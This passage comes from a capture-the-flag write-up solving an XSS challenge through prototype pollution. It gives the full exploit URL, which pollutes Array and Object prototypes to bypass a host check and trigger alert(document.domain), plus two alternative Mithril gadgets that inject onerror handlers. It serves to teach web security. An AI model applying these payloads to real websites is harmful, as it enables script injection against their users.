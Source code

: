 To sum up, we need to:

1. Pollute Array.prototype[1] to bypass checkHost() check
3. Pollute a few properties on Object.prototype including `xmlns`, `autofocus` and `ONFOCUS` to perform XSS

As what I said in the beginning, the challenge is all about prototype pollution!

Here is what we need in the end:

```
?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][autofocus]=1&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][ONFOCUS]=alert(document.domain)&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][xmlns]=http%3A%2F%2Fwww.w3.org%2F1999%2Fxhtml
```

URL: https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][autofocus]=1&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][ONFOCUS]=alert(document.domain)&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][xmlns]=http%3A%2F%2Fwww.w3.org%2F1999%2Fxhtml

## Other script gadgets

Besides the above gadget, some players also find another one.

``` js
const App = {
  view: function() {
    return m("div", {class: 'a'},"hello")
  }
}

Object.prototype.tag = 'img'
Object.prototype.src = '1'
Object.prototype.img = 'http://www.w3.org/1999/xhtml'
Object.prototype.attrs = ''
Object.prototype.Onerror = 'alert(1)'
m.mount(document.querySelector('main'), App)
```

It creates a new element from nothing by polluting `Object.prototype.tag`. The rest part is similar with the intended gadget.

And also this cool gadget found by [@lbrnli1234](https://twitter.com/lbrnli1234):

``` js
const App = {
  view: function() {
    return m("div", {class: 'a'},"hello")
  }
}

Object.prototype.tag = 'style'
Object.prototype.attrs = ''
String.prototype.Onerror = 'alert(1)'
m.mount(document.querySelector('main'), App)
```
